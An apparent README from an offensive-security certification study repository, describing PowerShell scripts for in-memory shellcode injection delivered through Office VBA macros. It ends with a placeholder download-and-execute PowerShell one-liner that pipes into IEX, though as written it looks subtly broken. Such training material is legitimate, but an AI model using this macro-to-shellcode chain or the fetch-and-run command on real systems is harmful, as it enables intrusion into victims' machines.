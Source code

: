 ### PowerShell

In this repository we have some scripts that describes the process to execute a shellcode in PowerShell.

- In [InvokeWin32APIs.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/InvokeWin32APIs.ps1), we learn how to import some Win32 APIs over C# code. 
- In [ShellCodeLauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/ShellCodeLauncher.ps1), we implement that Win32 APIs over our current powershell session and use it to copy our shellcode in memory and inyect it over the execution flow of the current process.
- In [VBAenvlauncher.ps1](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/PowerShell/VBAenvlauncher.ps1) we modify some parts of the script before to be succesfully launched in a VBA macro.

The method to use correctly this script is to use it with [PSHTTPDownloader.vba](https://github.com/qv1ntv5/OSEP/blob/main/ClientSideAttacks/MicrosoftOffice/VBA/PSHTTPDownloader.vba), the *str* var must contian the follwoing line:

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('<URL>', '<OUTFILE>') | IEX
```
